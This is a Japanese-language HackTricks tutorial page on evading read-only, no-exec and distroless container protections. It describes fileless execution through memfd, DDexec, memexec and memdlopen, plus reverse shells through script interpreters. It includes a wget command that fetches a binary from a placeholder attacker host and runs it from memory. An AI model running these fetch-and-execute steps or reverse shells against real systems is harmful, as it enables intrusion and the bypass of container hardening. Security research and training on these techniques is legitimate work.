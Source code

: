 # FS保護のバイパス: 読み取り専用 / no-exec / Distroless

{% hint style="success" %}
AWSハッキングを学び、実践する:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、実践する: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください!
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを送信してください。**

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**ハッキングキャリア**に興味があり、ハッキング不可能なものをハッキングしたい方 - **私たちは採用中です!** (_流暢なポーランド語の読み書きが必要です_)。

{% embed url="https://www.stmcyber.com/careers" %}

## 動画

以下の動画では、このページで言及された技術がより深く説明されています:

* [**DEF CON 31 - Linuxメモリ操作の探求: ステルスと回避**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**DDexec-ngとメモリ内dlopen()によるステルス侵入 - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## 読み取り専用 / no-execシナリオ

Linuxマシンが**読み取り専用 (ro) ファイルシステム保護**でマウントされることがますます一般的になっています。特にコンテナでは、**`readOnlyRootFilesystem: true`**を`securitycontext`に設定するだけで、roファイルシステムでコンテナを実行することができます:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

しかし、ファイルシステムがroとしてマウントされていても、**`/dev/shm`**は書き込み可能であるため、ディスクに何も書き込めないというのは偽りです。ただし、このフォルダは**no-exec保護**でマウントされるため、ここにバイナリをダウンロードしても**実行することはできません**。

{% hint style="warning" %}
レッドチームの観点から見ると、これは**システムに既に存在しないバイナリをダウンロードして実行することを複雑にします**（バックドアや`kubectl`のような列挙ツールなど）。
{% endhint %}

## 最も簡単なバイパス: スクリプト

バイナリについて言及したことに注意してください。インタープリタがマシン内にある限り、**任意のスクリプトを実行できます**。例えば、`sh`が存在する場合は**シェルスクリプト**、`python`がインストールされている場合は**Pythonスクリプト**です。

しかし、これはあなたのバイナリバックドアや他のバイナリツールを実行するには十分ではありません。

## メモリバイパス

バイナリを実行したいがファイルシステムがそれを許可していない場合、最良の方法は**メモリから実行すること**です。なぜなら、**保護はそこには適用されないからです**。

### FD + execシステムコールバイパス

マシン内に**Python**、**Perl**、または**Ruby**のような強力なスクリプトエンジンがある場合、メモリから実行するためにバイナリをダウンロードし、メモリファイルディスクリプタ（`create_memfd`システムコール）に保存できます。これはこれらの保護によって保護されないため、**`exec`システムコール**を呼び出して**fdを実行するファイルとして指定**できます。

これには、プロジェクト[**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec)を簡単に使用できます。バイナリを渡すと、**バイナリが圧縮され、b64エンコードされ**、`create_memfd`システムコールを呼び出して作成された**fd**で**デコードおよび解凍する**ための指示を含むスクリプトが生成されます。

{% hint style="warning" %}
これは、PHPやNodeのような他のスクリプト言語では機能しません。なぜなら、スクリプトから生のシステムコールを呼び出す**デフォルトの方法がないため**、バイナリを保存するための**メモリfd**を作成するために`create_memfd`を呼び出すことができないからです。

さらに、`/dev/shm`にファイルを持つ**通常のfd**を作成しても機能しません。なぜなら、**no-exec保護**が適用されるため、実行することが許可されないからです。
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec)は、プロセスの**`/proc/self/mem`**を上書きすることによって**自分のプロセスのメモリを変更する**技術です。

したがって、プロセスによって実行されているアセンブリコードを**制御することができ**、**シェルコード**を書き込み、プロセスを「変異」させて**任意のコードを実行する**ことができます。

{% hint style="success" %}
**DDexec / EverythingExec**を使用すると、**メモリから**自分の**シェルコード**や**任意のバイナリ**を**ロードして実行**できます。
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
For more information about this technique check the Github or:

{% content-ref url="ddexec.md" %}
[ddexec.md](ddexec.md)
{% endcontent-ref %}

### MemExec

[**Memexec**](https://github.com/arget13/memexec)は、DDexecの自然な次のステップです。これは**DDexecシェルコードのデーモン化**であり、異なるバイナリを**実行したいとき**にDDexecを再起動する必要はなく、DDexec技術を介してmemexecシェルコードを実行し、**このデーモンと通信して新しいバイナリを読み込んで実行する**ことができます。

**memexecを使用してPHPリバースシェルからバイナリを実行する方法の例**は[https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php)で見つけることができます。

### Memdlopen

DDexecと同様の目的を持つ[**memdlopen**](https://github.com/arget13/memdlopen)技術は、**メモリにバイナリを読み込む**ための**簡単な方法**を提供します。依存関係を持つバイナリを読み込むことも可能です。

## Distroless Bypass

### What is distroless

Distrolessコンテナは、特定のアプリケーションやサービスを実行するために必要な**最小限のコンポーネント**（ライブラリやランタイム依存関係など）だけを含み、パッケージマネージャー、シェル、システムユーティリティなどの大きなコンポーネントは除外します。

Distrolessコンテナの目的は、**不要なコンポーネントを排除することによってコンテナの攻撃面を減少させ**、悪用可能な脆弱性の数を最小限に抑えることです。

### Reverse Shell

Distrolessコンテナでは、**通常のシェルを取得するための`sh`や`bash`**さえ見つからないかもしれません。また、`ls`、`whoami`、`id`などのバイナリも見つかりません... システムで通常実行するすべてのものです。

{% hint style="warning" %}
したがって、**リバースシェル**を取得したり、通常のように**システムを列挙**したりすることは**できません**。
{% endhint %}

しかし、もし侵害されたコンテナが例えばflaskウェブを実行している場合、pythonがインストールされているため、**Pythonリバースシェル**を取得できます。nodeを実行している場合はNodeリバースシェルを取得でき、ほとんどの**スクリプト言語**でも同様です。

{% hint style="success" %}
スクリプト言語を使用することで、言語の機能を利用して**システムを列挙**することができます。
{% endhint %}

もし**`read-only/no-exec`**保護がなければ、リバースシェルを悪用して**ファイルシステムにバイナリを書き込み**、**実行**することができます。

{% hint style="success" %}
ただし、この種のコンテナでは通常これらの保護が存在しますが、**以前のメモリ実行技術を使用してそれらを回避する**ことができます。
{% endhint %}

**RCE脆弱性を悪用してスクリプト言語の**リバースシェル**を取得し、メモリからバイナリを実行する方法の**例**は[**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE)で見つけることができます。

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**ハッキングキャリア**に興味があり、ハッキング不可能なものをハッキングしたい方 - **私たちは採用中です！** (_流暢なポーランド語の読み書きが必要です_)。

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)をフォローしてください。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出してハッキングトリックを共有してください。

</details>
{% endhint %}

